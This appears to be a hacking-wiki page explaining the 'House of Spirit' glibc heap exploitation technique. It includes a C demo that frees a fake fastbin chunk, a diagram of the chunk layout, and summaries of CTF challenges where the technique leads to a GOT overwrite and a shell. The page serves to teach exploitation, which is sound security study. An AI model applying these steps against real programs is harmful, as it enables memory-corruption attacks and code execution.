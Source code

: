 # House of Spirit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

## Basic Information

### Code

<details>

<summary>House of Spirit</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
  struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
  void *ptr, *victim;

  ptr = malloc(0x30);

  printf("Original alloc address: %p\n", ptr);
  printf("Main fake chunk:%p\n", &fake_chunks[0]);
  printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

  // Passes size check of "free(): invalid size"
  fake_chunks[0].size = sizeof(struct fast_chunk);

  // Passes "free(): invalid next size (fast)"
  fake_chunks[1].size = sizeof(struct fast_chunk);

  // Attacker overwrites a pointer that is about to be 'freed'
  // Point to .fd as it's the start of the content of the chunk
  ptr = (void *)&fake_chunks[0].fd;

  free(ptr);

  victim = malloc(0x30);
  printf("Victim: %p\n", victim);

  return 0;
}
```

</details>

### Goal

* Be able to add into the tcache / fast bin an address so later it's possible to allocate it

### Requirements

* This attack requires an attacker to be able to create a couple of fake fast chunks indicating correctly the size value of it and then to be able to free the first fake chunk so it gets into the bin.

### Attack

* Create fake chunks that bypasses security checks: you will need 2 fake chunks basically indicating in the correct positions the correct sizes
* Somehow manage to free the first fake chunk so it gets into the fast or tcache bin and then it's allocate it to overwrite that address

**The code from** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **is great to understand the attack.** Although this schema from the code summarises it pretty good:

```c
/*
    this will be the structure of our two fake chunks:
    assuming that you compiled it for x64

    +-------+---------------------+------+
    | 0x00: | Chunk # 0 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x08: | Chunk # 0 size      | 0x60 |
    +-------+---------------------+------+
    | 0x10: | Chunk # 0 content   | 0x00 |
    +-------+---------------------+------+
    | 0x60: | Chunk # 1 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x68: | Chunk # 1 size      | 0x40 |
    +-------+---------------------+------+
    | 0x70: | Chunk # 1 content   | 0x00 |
    +-------+---------------------+------+

    for what we are doing the prev size values don't matter too much
    the important thing is the size values of the heap headers for our fake chunks
*/
```

{% hint style="info" %}
Note that it's necessary to create the second chunk in order to bypass some sanity checks.
{% endhint %}

## Examples

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
  * **Libc infoleak**: Via an overflow it's possible to change a pointer to point to a GOT address in order to leak a libc address via the read action of the CTF
  * **House of Spirit**: Abusing a counter that counts the number of "rifles" it's possible to generate a fake size of the first fake chunk, then abusing a "message" it's possible to fake the second size of a chunk and finally abusing an overflow it's possible to change a pointer that is going to be freed so our first fake chunk is freed. Then, we can allocate it and inside of it there is going to be the address to where "message" is stored. Then, it's possible to make this point to the `scanf` entry inside the GOT table, so we can overwrite it with the address to system.\
    Next time `scanf` is called, we can send the input `"/bin/sh"` and get a shell.

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
  * **Glibc leak**: Uninitialized stack buffer.
  * **House of Spirit**: We can modify the first index of a global array of heap pointers. With a single byte modification, we use `free` on a fake chunk inside a valid chunk, so that we get an overlapping chunks situation after allocating again. With that, a simple Tcache poisoning attack works to get an arbitrary write primitive.

## References

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

